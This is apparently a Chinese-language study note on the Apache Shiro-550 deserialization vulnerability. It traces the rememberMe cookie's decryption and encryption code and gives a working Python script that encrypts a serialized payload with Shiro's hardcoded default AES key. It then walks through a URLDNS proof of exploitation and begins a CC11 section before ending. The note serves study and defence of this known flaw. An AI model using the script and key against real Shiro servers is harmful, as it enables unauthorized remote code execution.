# 16 · 组件 · Shiro 反序列化

> 查阅区 · **只查不读**，不进学习路径。原文拆自 `JAVA安全-全本`，正文一字未改，仅调标题层级与图片相对路径。
> 什么时候翻：组件卡三步：版本 → 前置（rememberMe/默认 key）→ 可控入口

## Shiro反序列化

Shiro550反序列化的漏洞在于AES加密时使用了默认密钥，所以可以构造payload造成反序列化漏洞

### 解密过程

- 在登录界面登录若登录不成功返回包中set-Cookie会有rememberMe=deleteMe;字段

  

- 若勾选rememberMe，然后登录成功的话返回包中set-Cookie也会有rememberMe=deleteMe;字段，并返回rememberMe的加密字段，且之后登录时也会带上该字段

  

- Shiro的漏洞就在rememberMe加密字段中，在代码寻找Cookie加密逻辑，最后找到类`CookieRememberMeManager`，获得Cookie字段的方法应该是`getRememberedSerializedIdentity()`

  

  - 看一下代码逻辑，首先判断是否是Http请求，然后获取请求包和响应包，然后获取其中的Cookie，然后是否有*DELETED_COOKIE_VALUE*也就是`deleteMe`字段，随后判断base64编码长度是否符合，并将base64解码返回

- 然后寻找调用`getRememberedSerializedIdentity()`的方法，找到`getRememberedPrincipals()`

  

  - 再跟进`convertBytesToPrincipals()`，代码逻辑是先进行解密，再反序列化

    

### 分析decrypt()

- 跟进decrypt()

  

  - 加密序列化数据，再跟进更里层的`decrypt()`，发现是某加密算法通过密钥加密

    

  - 想看能否通过密钥判断出加密算法，所以选择跟进`getEncryptionCipherKey()`

    

    

  - 发现其下有`setCipherKey()`，其中设置的就是默认密钥

    

  - 找到默认密钥，并得知加密算法是AES对称加密

### 分析deserialize()

- 跟进deserialize()，找到一个deserialize接口





- 发现调用的Shiro自定义的readObject()方法

​	

### 漏洞原理

知道了在解密时进行了反序列化，那就可以构造加密的反序列化链进行漏洞利用，下面通过断点调试分析一下加密过程

- 首先将断点下在`AbstractRememberMeManager.onSuccessfulLogin()`

  

  - 前面的`forgetIdentity()`是每次登录成功都去除之前的凭证，然后此处的`isRememberMe()`是判断是否勾选了rememberMe

- 然后下面的`rememberIdentity()`才是记住新凭证，也就是具体的加密过程

  

- 这里的`getIdentityToRemember()`保存了用户名，跟进下面的`rememberIdentity()`

  

  - 这里的`convertPrincipalsToBytes()`对凭证进行了序列化和encrypt加密

    

  - `serialize()`就是序列化

    

  - `encrypt()`使用了与decrypt()相同的密钥再次证明是对称加密，也就是AES加密

    

- 然后`rememberIdentity()`下面的`rememberSerializedIdentity()`又进行了base64加密

  

  - 最后获得Cookie

    

- 总结一下加密过程也就是序列化->AES->base64，其中AES又默认密钥，base64是公开的加密算法，所以只要在序列化时使用漏洞EXP在按加密过程加密通过Cookie发包，就可能触发反序列化漏洞

### 漏洞利用

通过前面的分析得知Shiro550反序列化的利用就是对序列化payload先进行AES加密，再进行base64加密，加密脚本如下

```python
import base64
import uuid
import argparse
from Crypto.Cipher import AES


def get_file_name(filename):
    with open(filename, 'rb') as f:
        data = f.read()
    return data

def aes_enc(data):
    key = 'kPH+bIxk5D2deZiIxcaaaA=='
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    mode = AES.MODE_CBC
    iv = uuid.uuid4().bytes
    encryptor = AES.new(base64.b64decode(key), mode, iv)
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(pad(data)))
    return base64_ciphertext


if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='AES encrypt files')
    parser.add_argument('filename', help='File to encrypt')
    args = parser.parse_args()

    data = get_file_name(args.filename)
    print(aes_enc(data))
```

#### URLDNS利用

- URLDNS序列化脚本已经有了，先序列化再加密

​	

- 再修改Cookie内容

  

  - 这里要先删掉JESSIONID，因为其也可作为登录凭证，就不会对rememberMe进行解密也就不会触发反序列化漏洞

    

- 成功查询到DNS请求

  

#### CC11利用

- CC11反序列化payload已给出，获取字节码文件并加密

